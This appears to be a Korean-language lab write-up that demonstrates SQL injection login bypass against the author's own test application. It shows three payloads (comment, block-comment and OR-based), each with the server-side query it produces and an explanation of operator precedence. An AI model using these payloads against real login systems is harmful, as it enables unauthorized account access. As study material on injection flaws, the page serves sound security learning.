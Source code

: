 >로그인 코드
<script src="https://gist.github.com/MinGyu2/348f7a0e850908a350bb766f307d8e9a.js"></script>
- 다음 코드를 통해 인증을 한다.
```java
var member = auth.authAndMember(id, pwd);
```


>정상적인 로그인<br>
![Pasted image 20230419141436](https://user-images.githubusercontent.com/31990118/232983137-92129ab9-a389-43c0-93b9-46e70de832ce.png)<br>![Pasted image 20230419141453](https://user-images.githubusercontent.com/31990118/232983198-a896785d-032c-47a7-9dac-905c0a7fe3a8.png) 

<br>
>**공격 방법**

- **주석을 이용한 인증우회(1)**

| | 입력|
|---|---|
|id|`user2'--`|
|pwd|` ` |

- 서버에서 완성된 쿼리문<br>
`select * from members where id='user2'--' and PASSWORD=' '`<br>![Pasted image 20230419044643](https://user-images.githubusercontent.com/31990118/232983978-af5bd6a4-cc9b-4c5b-a130-155f58121b71.png)<br>![Pasted image 20230419044620](https://user-images.githubusercontent.com/31990118/232984069-0c3d894b-edfe-43c0-a4b2-04349fee4065.png)

<br>
- **주석을 이용한 인증우회(2)**

| | 입력|
|---|---|
|id|`user2'/*` |
|pwd| `*/and '1'='1`|

- 서버에서 완성된 쿼리문<br>
`select * from members where id='user2'/*' and password='*/and '1'='1';`<br>![Pasted image 20230419141124](https://user-images.githubusercontent.com/31990118/232984619-32b03055-7784-4d7b-ad5e-15a7bf6f1dd8.png)<br>![Pasted image 20230419141032](https://user-images.githubusercontent.com/31990118/232984682-5b1c1f8e-bd5b-442c-a209-f732dcf21e26.png)
- 블럭 단위로 주석처리 하였다.

<br>
- **or 이용한 인증우회**

| | 입력|
| --- | ---|
|id| `user2' or '1'='1`|
|pwd|` ` |

- 서버에서 완성된 쿼리문<br>
`select * from members where id='user2' or '1'='1' and PASSWORD=' '`<br>![Pasted image 20230419141300](https://user-images.githubusercontent.com/31990118/232984798-75e83f27-fab3-4e09-b546-9f1bad9dff19.png)<br>![Pasted image 20230419141331](https://user-images.githubusercontent.com/31990118/232984846-083c960b-50c9-4344-b391-e4486fb22736.png)
- 비교연산자 우선순위에 의해 and 연산자 부분을 먼저 계산을 하고 or 연산을 계산한다.<br>`select * from members where (id='user2' or ('1'='1' and PASSWORD=' '))`
